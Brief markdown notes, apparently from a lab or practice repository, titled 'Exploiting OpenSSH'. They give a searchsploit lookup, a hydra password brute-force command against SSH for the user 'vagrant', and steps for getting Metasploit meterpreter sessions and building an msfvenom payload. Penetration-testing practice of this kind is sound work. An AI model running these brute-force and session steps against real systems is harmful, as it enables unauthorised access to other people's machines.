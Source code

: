 # Exploiting OpenSSH
1. Check searchsploit -- ```searchsploit openssh 7.1```
2. Brute force login -- ```hydra -l  vagrant -P /usr/share/metasploit/unix_users.txt (target IP) ssh```
3. login

**Get meterpreter sessions**  
module: auxiliary/scanner/ssh/ssh_login 

if upgrading session doesnt work, create an MSFvenom payload

Obtain Windows CMD session in SSH -- ```bash```
